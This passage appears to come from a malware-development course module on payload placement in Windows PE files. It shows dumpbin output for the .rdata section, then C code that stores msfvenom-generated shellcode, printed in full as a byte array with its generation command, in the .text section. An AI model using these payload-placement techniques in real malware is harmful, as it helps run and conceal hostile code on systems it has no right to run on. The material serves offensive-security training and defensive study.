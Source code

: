 
The image below shows the output of running??[dumpbin.exe](https://learn.microsoft.com/en-us/cpp/build/reference/dumpbin-reference?view=msvc-170)??on the PE file. Installing Visual Studio's C++ runtime will automatically download dumpbin.exe.

Command:??`dumpbin.exe /ALL <binary-file.exe>`

Scroll down and view the details of the??`.rdata`??section which contains the data stored in its raw binary format.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/dumpbin-1.png)

  

Scrolling down further shows the allocated payload which is highlighted in the image below.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/dumpbin-2.png)
# 2.2 Payload Placement - .text Section

### Introduction

The previous module discussed storing payloads in the??`.data`??and??`.rdata`??sections, while this module covers storing payloads in the??`.text`??section.

### .text Section

Saving the variables in the??`.text`??section differs from saving them in the??`.data`??or??`.rdata`??sections, as it is not just a matter of declaring a random variable. Rather, one must instruct the compiler to save it in the??`.text`??section, which is demonstrated in the code snippet below.

```c
#include <Windows.h>
#include <stdio.h>

// msfvenom calc shellcode
// msfvenom -p windows/x64/exec CMD=calc.exe -f c 
// .text saved payload
#pragma section(".text")
__declspec(allocate(".text")) const unsigned char Text_RawData[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};

int main() {
```